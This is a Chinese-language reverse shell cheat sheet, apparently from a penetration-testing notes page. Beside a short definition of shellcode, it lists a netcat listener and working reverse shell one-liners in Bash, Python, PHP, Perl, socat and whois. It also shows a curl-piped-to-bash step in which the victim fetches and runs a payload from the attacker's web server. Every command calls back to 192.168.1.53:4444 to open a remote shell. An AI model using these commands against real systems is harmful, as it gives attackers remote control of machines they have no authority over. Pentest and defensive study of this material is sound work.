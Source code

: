 ShellCode 是指一段小型的机器代码，通常用于在计算机系统中执行特定的恶意操作。

## 1 监听端口

Netcat 侦听端口用于接收反弹 `shell`

```
nc -lnvp 4444
```

## 2 反弹 Shell

**Bash**

```
bash -i >& /dev/tcp/<host>/4444 0>&1
```

**Curl 反弹**
开启 Web 服务

```
┌──(root㉿kali)-[~]
└─#  systemctl start apache2.service
```

将反弹 Shell 写入 HTML 文件

```
┌──(root㉿kali)-[/var/www/html]
└─# vim bash.html   
```

```
bash -i >& /dev/tcp/192.168.1.53/4444 0>&1
```

受害者下载并运行攻击者的文件

```
[root@centos ~]# curl 192.168.1.53/bash.html | bash
```

**Whois 反弹**

下载 `whois` 

```
[root@centos ~]# yum install -y whois
```

反弹的 Shell 并执行命令

```
[root@centos ~]# whois -h 192.168.1.53 -p 4444 [command]
```

**Python 反弹**

```
[root@centos ~]# python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.1.53",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

**PHP 反弹**

安装 `php`

```
[root@centos ~]# yum install php -y
```

反弹 Shell

```
[root@centos ~]# php -r '$sock=fsockopen("192.168.1.53",4444);exec("/bin/sh -i <&3 >&3 2>&3");'
```

**Socat 反弹**

安装 `socat`

```
[root@centos ~]# yum install -y socat
```

反弹 Shell

```
[root@centos ~]# socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:192.168.1.53:4444
```

**Perl 反弹**

```
[root@centos ~]# perl -e 'use Socket;$i="192.168.1.53";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

---

Refrences

- [Reverse Shell Generator](https://www.revshells.com/)
